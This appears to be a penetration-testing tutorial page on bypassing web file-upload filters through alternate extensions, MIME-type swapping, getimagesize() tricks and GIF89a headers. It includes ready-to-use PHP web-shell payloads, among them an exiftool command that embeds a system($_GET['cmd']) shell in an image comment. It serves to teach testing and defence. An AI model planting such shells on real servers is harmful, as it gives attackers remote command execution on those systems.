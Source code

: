 # File upload

## File upload bypass

File upload mechanisms are very common on websites, but sometimes have poor validation. This allows attackers to upload malicious files to the web server, which can then be executed by other users or the server itself. This can also happen in authenticated areas of a website (e.g. installing WordPress plugins)

### File extension <a href="#file-extension" id="file-extension"></a>

Developers may blacklist specific file extensions and prevent users from uploading files with extensions that are considered dangerous. This can be bypassed by using alternate extensions or even unrelated ones. For example, it might be possible to upload and execute a `.php` file simply by renaming it `file.php.jpg` or `file.PHp`.

**Alternate extensions**

| Type       | Extension                                  |
| ---------- | ------------------------------------------ |
| php        | phtml, .php, .php3, .php4, .php5, and .inc |
| asp        | asp, .aspx                                 |
| perl       | .pl, .pm, .cgi, .lib                       |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf         |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                    |

### MIME type <a href="#mime-type" id="mime-type"></a>

Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.

Normal php MIME type:

Copy

```
Content-type: application/x-php
```

Replace with:

Copy

```
Content-type: image/jpeg
```

### PHP getimagesize() <a href="#php-getimagesize" id="php-getimagesize"></a>

For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as `file.jpg.php`.

You can do this with gimp or exiftools:

Copy

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```

I'm not sure why some tutorials have the php extension first while others have it second. Try both.

### GIF89a; header <a href="#gif89a-header" id="gif89a-header"></a>

GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:

Copy

```
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```

### Further reading <a href="#further-reading" id="further-reading"></a>

* [Injecting malicious PHP into an image file](http://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html)
* [Bypassing file upload restrictions](https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/)
